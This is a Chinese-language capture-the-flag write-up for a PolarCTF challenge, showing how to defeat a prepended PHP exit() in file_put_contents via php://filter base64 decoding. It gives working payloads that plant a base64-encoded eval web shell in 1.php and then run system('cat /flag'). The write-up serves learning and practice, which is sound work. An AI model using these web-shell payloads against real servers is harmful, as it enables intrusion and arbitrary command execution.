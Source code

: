 ```yaml
---
date: 2024-06-08
categories: 
    - PolarCTF
tag:
    - CTF
    - 
---
```


# 每日一题 —— [PolarCTF]写shell

> 题目地址：<https://www.polarctf.com/#/page/challenges>

<!-- more -->

打开题目就是很简单的一行代码，他会把你输入的 `content` 并上前面的 `<?php exit();` 一起写入到你指定的文件内。

观察到题目使用了 `file_put_contents` 函数，这个函数是支持 php 伪协议的，所以我们可以尝试使用 `php://filter` 来对我们输入的内容进行转换。预期结果就是，我们输入的内容可以把前面的 `exit` 函数给弄得失效，并且我们写入的 php 代码可以生效。

首先尝试这个 payload:
 
```
?filename=php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=1.txt

POST:
content= ?<hp phpipfn(o;)
```

注意 `content` 和 `?` 之间的空格，这是因为 `UCS-2LE` 和 `UCS-2BE` 之间是两两组队互相交换的。所以为了保证转换成功进行，我们使用空格让前面的数据维持一个偶数个。

最后发现没有效果，在 `/1.txt` 中，所有数据被原原本本地写入了进去，也就是说前面的 `exit()` 被照常执行了。具体原因不清楚，没有办法，我们只能换一个方法。 

现在我们测试一下 base64 的方法。我们先把需要的东西进行 base64 编码写入进去测试一下：

```
?filename=php://filter/convert.base64-encode/resource=1.txt

POST:
content=<?phpinfo();
```

打开 `/1.txt` 可以看到数据被成功以 base64 的方式写入了进去。但是我们需要往里写入原始数据，所以我们预先要准备好一串 base64 编码好的 payload. 那么前面的函数怎么办呢。这里涉及一个 base64 的知识：base64 在转换的过程中是 3:4 的比例转换的，也就是说，对于一串原始文本，每三个字符一组被转换为一串 base64 ，其长度为 4. 因此在把 base64 解码的过程中，会四个字符一组转换。另外 base64 只支持 `[A-Z]` `[a-z` `/` `+` `=` 这些字符，其余的字符都是会被当作垃圾字符直接舍弃掉。

因此观察前面的代码 `<?php exit();` ，如果我们将其认为是一段 base64 编码的话，他会被省略无关字符，变为 `phpexit` ，一共七个字符。那么如果我们转换为原始文本，为了不影响后面的 payload 的转换，按照 4:3 的转换标准，我们需要补上一个合法字符凑齐 4 的倍数，然后再跟上已经编码好的 payload, 如下:

```bash
aPD9waHAgZXZhbCgkX1BPU1RbMV0pOw==   # <?php eval($_POST[1]);
```

熟悉这一段的都知道，`PD9w` 开头的就是 php 代码了。前面的 a 就会帮忙补足所需要的字节数。因此最终 payload ：

```bash
?filename=php://filter/convert.base64-decode/resource=1.php

POST
content=aPD9waHAgZXZhbCgkX1BPU1RbMV0pOw==
```

注意和之前的 payload 不同的是，我把输出的文件名改成了 `1.php` ，这样才可以成功解析我们要的 php 代码。另外 `base64` 后面跟着的是 `decode` ，因为这一次是我们预先输入了一串 base64，服务器帮我们解析成了原始文本。

最后，通过访问 `/1.php` ，无论是蚁剑连接，还是直接手搓 `POST: 1=system('cat /flag');` 都没问题了。

